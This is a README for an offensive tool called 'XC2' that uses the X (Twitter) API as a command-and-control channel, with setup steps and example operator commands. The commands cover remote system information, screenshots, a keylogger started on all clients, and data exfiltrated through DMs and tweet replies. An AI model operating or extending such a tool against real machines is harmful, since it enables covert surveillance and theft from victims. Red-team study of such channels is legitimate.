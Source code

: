 # XC2
Simple demonstration of using X (twitter) new API as a C2

# Price Limitation

With this new API, you need to have a basic plan to be able to use this project 😭
![image](https://github.com/user-attachments/assets/fc70f59b-c8fb-43d5-a43b-796be250fe2f)

# Requirements
- Python 3.8+
- Libraries: tweepy, cryptography, Pillow, pynput
- Twitter API v2 credentials (Bearer Token, API Key, etc.)

## Setup
- Install Dependencies: `pip install tweepy cryptography Pillow pynput`
- Configure Credentials:
  - Replace placeholders in c2_server.py and c2_client.py with your Twitter API credentials.
  - Share the encryption key (key) between server and client.
# Usage
- Run Server:
  - python server.py
- Run Client:
  - python client.py

## Shell-Like Interaction examples
- server> `sysinfo`
  - Logs show responses like: Response from <client_id>: {'o': 'Windows', 'h': 'HOST1', 'i': '192.168.1.10'}
  - Target a specific client (replace <client_id> with actual ID from logs):
- server> `target:<client_id> screenshot`
  - Logs show chunked screenshot data.
- Start keylogger on all clients:
  - server> `keylogger_start`
  - Logs show keystrokes every 10 keys (e.g., Response from <client_id>: "hello[SPACE]world").
- View Responses:
  - Check server logs for real-time exfiltration from DMs or tweet replies.
- Additional Commands
  - whoami: Get client username.
  - get_memory key=last_dir: Retrieve in-memory data.
